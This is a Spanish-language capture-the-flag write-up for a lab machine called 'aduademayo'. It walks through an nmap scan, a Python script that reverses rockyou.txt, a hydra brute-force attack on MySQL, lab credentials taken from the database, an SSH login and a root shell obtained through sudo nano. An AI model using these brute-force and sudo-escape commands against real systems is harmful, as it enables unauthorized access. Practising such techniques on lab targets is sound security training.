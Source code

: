 ```yaml
---
Maquina: aduademayo
SO: Linux
Explotación: Análisis web y fuerza bruta
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - web
  - mysql
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sSV -Pn 172.17.0.2
```

![[Pasted image 20241119084416.png]]

Vamos a comprobar el estado del portal web a ver que información nos puede proporcionar.

![[Pasted image 20241119084507.png]]

Parece ser un fan de V de vendetta jeje, nos da a entender que es importante el nombre del personaje... Osea V.... Vamos a probar a hacer fuerza bruta al mysql con este nombre.

Tras probar varias cosas lo que había que hacer es invertir el rockyou.txt y eliminar los caracteres especiales, yo he utilizado el siguiente código ->

```python
import re

# Leer el archivo completo y procesarlo
with open("rockyou.txt", "r", encoding="utf-8", errors="ignore") as infile:
    # Leer todas las líneas y limpiar caracteres especiales
    passwords = [re.sub(r"[^a-zA-Z0-9]", "", line.strip()) for line in infile]
    
# Invertir el orden de las contraseñas
passwords = list(filter(None, passwords))[::-1]  # Eliminar líneas vacías y luego invertir

# Guardar las contraseñas invertidas en un nuevo archivo
with open("rockyou_invertido.txt", "w", encoding="utf-8") as outfile:
    outfile.write("\n".join(passwords))

print("Archivo procesado y guardado como 'rockyou_invertido.txt'")
```

Y tras invertir y probar la conexión por fuerza bruta obtenemos lo siguiente ->

```bash
hydra -l V -P rockyou_invertido.txt mysql://172.17.0.2 -f
```

![[Pasted image 20241120090144.png]]

Y conseguimos el user V / ie168. Ahora toca intentar iniciar sesión en el mysql yyyyyyy.. Estamos dentro

![[Pasted image 20241120090250.png]]

Tras indagar un poco en las bases de datos, nos podemos encontrar con el usuario Vendetta y la pass OldBailey

![[Pasted image 20241120090556.png]]

Y me da en la nariz que con este usuario podemos intentar conectarnos al ssh del host.

![[Pasted image 20241120090742.png]]

Parece que si que nos podemos conectar ;), ahora toca ver los permisos que tenemos.

![[Pasted image 20241120091004.png]]

Vemos que estamos ante el mítico nano con demasiados permisos...

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![[Pasted image 20241120091106.png]]

Y ya lo tenemos ;)